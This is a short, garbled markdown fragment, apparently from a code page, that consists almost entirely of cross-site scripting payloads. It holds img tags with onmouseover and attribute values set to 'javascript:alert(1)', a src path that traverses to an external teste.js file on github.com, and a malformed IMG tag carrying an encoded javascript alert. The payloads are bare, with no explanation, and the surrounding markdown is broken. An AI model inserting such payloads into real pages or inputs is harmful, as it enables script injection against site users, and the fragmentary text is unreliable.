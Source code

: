 ![
%0a
<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="%08javascript:alert(1)" onmouseover="javascript:alert(1)" id="%22javascript:alert(1)"/>

<IMG SRC= color=javascript%3aalert(&quot;XSS&quot;) >
  
](()

